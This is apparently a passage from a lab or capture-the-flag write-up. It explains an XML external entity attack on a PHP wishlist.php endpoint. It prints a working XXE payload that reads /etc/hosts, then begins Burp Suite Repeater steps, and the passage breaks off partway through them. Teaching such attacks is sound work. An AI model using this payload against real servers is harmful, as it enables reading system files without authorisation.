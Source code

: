 ### Preparing the payload
The line `libxml_disable_entity_loader(false);` allows us to load external entities. We can use this to read the contents of a file on the server (e.g. `/etc/hosts`) by changing the XML data in the request to:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```

Here, instead of the `product_id` we have the `payload` entity that reads the contents of the `/etc/hosts` file.

### Exploitation
We can use Burp Suite to change the XML data in the request:

1. Right-click on the `wishlist.php` request in the `HTTP history` tab and select `Send to Repeater`.
2. In the `Repeater` tab, we can change the XML data in the request to the payload above:

